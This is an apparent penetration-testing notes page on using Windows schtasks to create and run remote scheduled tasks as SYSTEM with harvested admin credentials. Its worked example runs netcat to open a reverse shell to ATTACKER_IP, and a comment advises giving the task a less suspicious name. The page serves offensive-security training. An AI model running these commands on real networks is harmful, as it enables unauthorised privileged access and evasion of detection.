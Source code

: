 # schtasks

> The  `schtasks` command can be used to schedule commands and programs to run periodically or at a specific time.

This command generally requires the user to be a member of the **Administrators** group on the remote computer. Refer to the documentation for exact actions that requires this permissions.

It first connects to port 135, before continuing the process on a dynamic port from 49152 to 65535. Refer to the link labelled "_Port numbers used_" in the resources section below for more information.

### Basic commands

{% code title="schtasks create" %}
```powershell
schtasks /s TARGET /ru "SYSTEM" /create /tn "<taskname>" /tr "<command/payload to execute>" /u "<username>" /p "<password>" /sc ONCE /sd 01/01/1970 /st 00:00 
```
{% endcode %}

* `/create` : Specify to create task
* `/s`: Specifies the name or IP address of a remote computer (with or without backslashes. Default is the local computer
* `/ru` : Runs that task with permission of the specified user account
  * eg. `/ru "SYSTEM"` runs the task with the local system account, a highly privileged account used by the operating system and system services
* `/tn` : Specifies a name for the task
* `/tr` : Specifies the program or command that the task runs
* `/u` , `/p` : command will run as the permissions of the username, and password of the user respectively&#x20;
* `/sc` : To specify the schedule type. Refer to the documentation link below for the full list of values
  * In our case, the value `ONCE` specifies that the task runs once at a specified date and time (see `/sd` and `/st`  below)
  * The `/st` option have to be specified if the value `ONCE` is used
* `/sd`: Specifies the date on which the task schedule starts, defaults to the current date on the local computer
* `/st` : Specifies the start time for the task, using the 24-hour time format&#x20;

{% code title="schtasks run" %}
```powershell
schtasks /s TARGET /run /tn  "<taskname>" /u "<username>" /p "<password>"
```
{% endcode %}

* `/run` : Specify to run task
* `/s` , `/tn`, `/u`  and `/p`: same as schtasks-create

### Example

Suppose we have breached a machine (`mach1`) on the AD network, along with credentials for an admin account (member of the **Administrators** group) that can be used on the target machine (`mach2`). We can perform the following sequence of commands to obtain a privileged reverse shell on the target machine (`mach2`). Let's assume the obtained admin credentials are: `admin` , `pass` .

{% code title="mach1 (breached machine)" %}
```powershell
# ofcourse we want to change the taskname  to something less suspicious 
C:\> schtasks /create /s mach2.xxxx /ru "SYSTEM" /u "admin" /p pass /tn "revshell" /tr "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP <PORT>" /sc ONCE /sd xxxx /st xxx 
C:\> schtasks /run /s mach2.xxxx  /tn  "revshell" 
```
{% endcode %}

#### Cleanup

```powershell
C:\> schtasks /S TARGET /TN "THMtask1" /DELETE /F
```

### Resources

1. Official `schtasks`  documentation:

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks-create" %}

2. Port numbers used:

{% embed url="https://serverfault.com/questions/899954/which-port-is-used-for-running-schtasks-exe-in-a-remote-computer" %}
